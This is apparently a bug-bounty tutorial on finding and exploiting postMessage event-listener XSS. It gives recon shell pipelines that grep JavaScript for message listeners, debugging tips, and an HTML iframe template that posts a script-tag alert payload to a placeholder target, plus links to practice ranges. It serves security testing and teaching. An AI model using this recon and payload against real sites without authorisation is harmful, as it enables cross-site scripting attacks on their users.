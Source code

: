 There are many posts on how to use eventlistener for XSS already, but not so many on how to find them with recon and tools.

I suggest reading writeups on eventlistener XSS before getting into this, since im skipping the technical parts to focus on methodology.

<h1>Recon</h1>
Initially, I look for this regex in all the included js with this regex:

`cat hosts | getJS | grep target.com |  httpx --match-regex "(?i)addEventListener\((?:'|\")message(?:'|\")"`

`grep target.com` will narrow the results to not include public static CDN servers. These are maintained and hard to exploit.
However if the target have their own private content delivery on e.g. static.target.com it may not be as well maintained and hold
vulnerable thirdparty js files. This is mainly what I look for when checking these results.

And of course attached eventlisteners can also exist in script tags on normal pages:

`cat hosts | hakrawler -plain | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"`

<h1>Method</h1>
With these results, we can start checking the pages. I mainly use https://github.com/fransr/postMessage-tracker on chrome to sift through pages. It tells where the scripts come from in the top corner and prints all transfering messages in the console. 

Burp also comes with a similar function in their embedded browser(Dom Invader).

If a message is sent that looks "home made" or occurs during a sensitive flow in the application, I take a look at it.

<h1>Exploitation</h1>
Tomnomnom brings up some valuable tips on how to work on postmessage XSS on STÖKs channel: https://www.youtube.com/watch?v=FTeE3OrTNoA

Some key take aways is how valuable the chrome debugger is, open your console -> go to the sources tab -> Global Listeners -> message. That's all the registered
message eventlisteners on the page. 

Put a breakpoint at the listener and shoot `window.PostMessage('test', '*')` in your console and see where it goes from the breakpoint. The fun sport is to try to please the if()'s and regexes until it hits a sink or similar.

If the window.PostMessage() pops from your console, and the origin isn't properly checked(The boring part that prevents exploitability many times), make a post on
https://repl.it like Tomnomnom suggests, with the following template code:

```
<!DOCTYPE html>
<html> 
 <head>
   <script>
var target = document.getElementById('target')

target.addEventListener('load', () => {

target.contentWindow.postMessage({
    "type": "redacted",
    "data": "<script>alert(document.domain)</script>"}, '*')
})
target.src = "https://test.target.com/search?q=yavolo"
   </script>
 <meta charset="utf-8">    
 <meta name="viewport" content="width=device-width">   
  </head>
    <body>  
       <iframe id=target></iframe>  
    </body>
</html>
```

If you see the target domain and not repl.it in the alert prompt, its bounty time. Just paste your `repl.it` link in your Hackerone report.



<h1>Practice</h1>
Try it out here:

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/eval

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/documentWrite

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/improperOriginValidationWithPartialStringComparison

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/improperOriginValidationWithRegExp


Twitter:
@oliverrickfors
